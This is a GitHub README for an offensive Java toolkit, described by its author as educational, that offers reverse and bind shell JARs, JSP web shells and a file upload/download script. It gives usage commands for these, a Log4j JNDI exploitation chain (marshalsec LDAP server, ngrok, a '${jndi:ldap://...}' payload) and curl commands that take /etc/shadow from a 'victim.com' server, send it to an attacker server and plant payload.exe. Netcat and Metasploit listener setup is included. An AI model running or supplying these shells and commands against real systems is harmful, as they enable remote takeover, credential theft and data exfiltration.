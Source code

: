 # Java Reverse TCP

JAR files and JSP scripts for communicating with a remote host.

Remote host will have a full control over the client and all the underlying system commands.

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Program will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Check the source code of JAR files:

* [/src/Reverse Shell/src/reverse/shell/ReverseShell.java](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Reverse%20Shell/src/reverse/shell/ReverseShell.java)
* [/src/Reverse Shell/src/reverse/shell/BindShell.java](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Bind%20Shell/src/bind/shell/BindShell.java)

Built with JDK v8 on Apache NetBeans IDE v12.2 (64-bit). All the files require Java SE v8 or greater to run.

JAR files were tested with Java v8 update 282 on Windows 10 Enterprise OS (64-bit) and Kali Linux v2021.2 (64-bit).

JSP scripts were tested on Apache Tomcat Version v7.0.100 on XAMPP for Windows v7.4.3 (64-bit).

Made for educational purposes. I hope it will help!

## Table of Contents

* [JAR Shells](#jar-shells)
* [Log4j Shells](#log4j-shells)
* [JSP Reverse Shell](#jsp-reverse-shell)
* [JSP Web Shells](#jsp-web-shells)
* [JSP File Upload/Download Script](#jsp-file-uploaddownload-script)
* [Set Up a Listener](#set-up-a-listener)
* [Images](#images)

## JAR Shells

Open your preferred console from [/jar/](https://github.com/ivan-sincek/java-reverse-tcp/tree/main/jar) and run the following commands:

```fundamental
java -jar Reverse_Shell.jar 192.168.8.185 9000

java -jar Bind_Shell.jar 9000
```

## Log4j Shells

This PoC was tested on Kali Linux v2021.4 (64-bit).

**Change the IP address and port number inside the source files as necessary.**

Open your preferred console from [/log4j/](https://github.com/ivan-sincek/java-reverse-tcp/tree/main/log4j) and run the following commands:

Compile the source file:

```fundamental
javac ReverseShell.java
```

Start a local web server from the same directory as the compiled class file (i.e. `ReverseShell.class`):

```fundamental
python3 -m http.server 9090

python3 -m http.server 9090 --directory somedirectory
```

P.S. You can use any web server you like.

Start a local LDAP server and create a reference to the compiled class file on your local web server:

```bash
git clone https://github.com/mbechler/marshalsec && cd marshalsec && mvn clean package -DskipTests && cd target

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:9090/#ReverseShell
```

Credits to the author for [marshalsec](https://github.com/mbechler/marshalsec)!

Give the local LDAP server a public domain with [ngrok](https://ngrok.com):

```fundamental
./ngrok tcp 1389
```

Build the JNDI string (obfuscate it however you like):

```fundamental
${jndi:ldap://x.tcp.ngrok.io:13337/ReverseShell}
```

## JSP Reverse Shell

**Change the IP address and port number inside the script as necessary.**

Copy [/jsp/jsp_reverse_shell.jsp](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/jsp_reverse_shell.jsp) to your projects's root directory or upload it to your target's web server.

Navigate to the file with your preferred web browser.

## JSP Web Shells

Check the [simple JSP web shell](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/simple_jsp_web_shell_post.jsp) based on HTTP POST request.

Check the [simple JSP web shell](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/simple_jsp_web_shell_get.jsp) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

## JSP File Upload/Download Script

Check the [simple JSP file upload/download script](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/files.jsp) based on HTTP POST request for file upload and HTTP GET request for file download.

When downloading a file, you should [URL encode](https://www.urlencoder.org) the file path, and specify name of the output file.

### Case 1: Upload the Script to the Victim’s Server

Navigate to the script on the victim's server with your preferred web browser, or use cURL from you PC.

Upload a file to the victim's server web root directory from your PC:

```fundamental
curl -s -k -X POST https://victim.com/files.jsp -F file=@/root/payload.exe
```

Download a file from the victim's PC to your PC:

```fundamental
curl -s -k -X GET https://victim.com/files.jsp?file=/etc/shadow -o shadow
```

If you use reverse shell and you have elevated your initial privileges, this script might not have the same privileges as your shell. To download a certain file, you might need to copy the file to the web root directory and give it necessary read permissions.

### Case 2: Upload the Script to Your Server

From your PHP reverse shell, run the following cURL commands.

Upload a file from the victim's PC to your server web root directory:

```fundamental
curl -s -k -X POST https://your-server.com/files.jsp -F file=@/etc/shadow
```

Download a file from your PC to the victim's PC:

```fundamental
curl -s -k -X GET https://your-server.com/files.jsp?file=/root/payload.exe -o payload.exe

curl -s -k -X GET https://your-server.com/payload.exe -o payload.exe
```

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/java-reverse-tcp/blob/main/img/reverse_shell.jpg" alt="Reverse Shell"></p>

<p align="center">Figure 1 - Reverse Shell</p>

<p align="center"><img src="https://github.com/ivan-sincek/java-reverse-tcp/blob/main/img/ncat.png" alt="Ncat"></p>

<p align="center">Figure 2 - Ncat</p>
